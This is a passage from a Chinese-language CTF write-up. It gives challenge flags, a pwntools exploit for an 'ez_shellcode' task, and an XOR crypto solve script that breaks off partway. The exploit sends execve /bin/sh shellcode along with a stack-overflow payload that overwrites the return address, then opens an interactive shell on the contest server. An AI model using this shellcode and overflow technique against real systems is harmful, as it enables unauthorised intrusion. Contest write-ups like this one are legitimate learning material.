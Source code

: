得flag：SYC{You_re@l1y_kn0w_how_To_revers3!}

## ez_shellcode

```python
from pwn import *

p = remote('nc1.ctfplus.cn',27481)

#构造 shellcode

#shellcode = asm(shellcraft.sh())

shellcode = '\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'

# 3. 计算溢出偏移量

offset = 0x18+8  

gift = 0x401256

# 4. 构造 payload

payload1 = shellcode

payload2 = b"A" * offset + p64(gift)

# 5. 发送 payload

p.sendline(payload1)  # 发送 shellcode

p.sendline(payload2)  # 发送利用 payload

# 6. 等待和交互

p.interactive()  # 切换到交互模式，使用 shell
```

得flag：SYC{996c3836-2e16-4e5a-9f45-b3e12ff30580}

## X0R

```python
from Crypto.Util.number import long_to_bytes

from pwn import xor

# 已知值

f1 = 4585958212176920650644941909171976689111990

f2 = 3062959364761961602614252587049328627114908

e2 = 10706859949950921239354880312196039515724907

# 逆向加密过程

e1 = e2 ^ f2

enc = e1 ^ f1

# 将 enc 转换回字节形式

```